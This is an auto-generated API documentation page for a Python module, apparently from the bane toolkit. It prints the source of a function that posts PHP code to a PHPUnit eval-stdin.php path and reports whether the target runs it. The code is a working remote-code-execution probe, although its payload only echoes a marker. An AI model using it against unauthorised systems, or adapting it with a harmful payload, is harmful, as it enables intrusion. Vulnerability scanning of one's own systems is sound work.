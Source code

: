 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.scanners.vulnerabilities.php_unit_exploit</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.scanners.vulnerabilities.utils import *

def phpunit_exploit(
    u,
    path=&#34;/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php&#34;,
    user_agent=None,
    cookie=None,
    timeout=10,
    proxy=None,
    headers={}
):
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    try:
        r = requests.Session().post(
            u + path,
            data=&#34;&lt;?php echo &#39;This_is_vulnerable_site&#39;;?&gt;&#34;,
            headers=hed,
            proxies=proxy,
            timeout=timeout,
            verify=False,
        ).text
        if &#34;This_is_vulnerable_site&#34; in r:
            return True
    except:
        pass
    return False</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-functions">Functions</h2>
<dl>
<dt id="bane.scanners.vulnerabilities.php_unit_exploit.phpunit_exploit"><code class="name flex">
<span>def <span class="ident">phpunit_exploit</span></span>(<span>u, path='/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php', user_agent=None, cookie=None, timeout=10, proxy=None, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def phpunit_exploit(
    u,
    path=&#34;/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php&#34;,
    user_agent=None,
    cookie=None,
    timeout=10,
    proxy=None,
    headers={}
):
    if u[len(u) - 1] == &#34;/&#34;:
        u = u[0 : len(u) - 1]
    if user_agent:
        us = user_agent
    else:
        us = random.choice(ua)
    hed = {&#34;User-Agent&#34;: us}
    if cookie:
        hed.update({&#34;Cookie&#34;: cookie})
    hed.update(headers)
    try:
        r = requests.Session().post(
            u + path,
            data=&#34;&lt;?php echo &#39;This_is_vulnerable_site&#39;;?&gt;&#34;,
            headers=hed,
            proxies=proxy,
            timeout=timeout,
            verify=False,
        ).text
        if &#34;This_is_vulnerable_site&#34; in r:
            return True
    except:
        pass
    return False</code></pre>
</details>
</dd>
</dl>
</section>
<section>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.scanners.vulnerabilities" href="index.md">bane.scanners.vulnerabilities</a></code></li>
</ul>
</li>
<li><h3><a href="#header-functions">Functions</a></h3>
<ul class="">
<li><code><a title="bane.scanners.vulnerabilities.php_unit_exploit.phpunit_exploit" href="#bane.scanners.vulnerabilities.php_unit_exploit.phpunit_exploit">phpunit_exploit</a></code></li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>